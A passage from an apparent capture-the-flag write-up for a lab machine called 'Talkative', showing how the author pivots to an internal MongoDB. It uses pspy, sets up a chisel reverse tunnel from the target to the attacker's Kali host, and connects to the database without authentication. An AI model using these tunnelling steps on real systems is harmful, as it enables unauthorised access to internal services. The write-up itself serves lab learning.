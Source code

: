 27017 is the default port for MongoDB as we can see [here](https://www.mongodb.com/docs/manual/reference/default-mongodb-port/).

Uploaded `pspy` to monitor the processes and got something interesting:
![](talkative/images/image10.png)

So connecting the dots we could assume there is a MongoDB running there!
Lets use `chisel` to forward this port to us!
In Kali:
```bash
$ ./chisel server -p 4444 --reverse
```

In target:
```bash
saul@talkative:/tmp$ ./chisel client 10.10.14.7:4444 R:27017:172.17.0.2:27017 &
```

Install MongoDB client in Kali:
```
$ wget https://downloads.mongodb.com/compass/mongodb-mongosh_1.3.1_amd64.deb  
$ sudo dpkg -i mongodb-mongosh_1.3.1_amd64.deb
```

Now we can connect:
```bash
$ mongosh "mongodb://LOCALHOST:27017"

Current Mongosh Log ID: 6253e3d1fc81e56a594e00d8
Connecting to:          mongodb://LOCALHOST:27017/?directConnection=true&appName=mongosh+1.3.1
Using MongoDB:          4.0.26
Using Mongosh:          1.3.1

For mongosh info see: https://docs.mongodb.com/mongodb-shell/


To help improve our products, anonymous usage data is collected and sent to MongoDB periodically (https://www.mongodb.com/legal/privacy-policy).
You can opt-out by running the disableTelemetry() command.

------
   The server generated these startup warnings when booting:
   2022-04-09T22:00:45.084+0000: 
   2022-04-09T22:00:45.084+0000: ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
   2022-04-09T22:00:45.084+0000: **          See http://dochub.mongodb.org/core/prodnotes-filesystem
   2022-04-09T22:00:47.663+0000: 
   2022-04-09T22:00:47.663+0000: ** WARNING: Access control is not enabled for the database.
   2022-04-09T22:00:47.663+0000: **          Read and write access to data and configuration is unrestricted.
   2022-04-09T22:00:47.663+0000: 
------

rs0 [direct: primary] test>
```
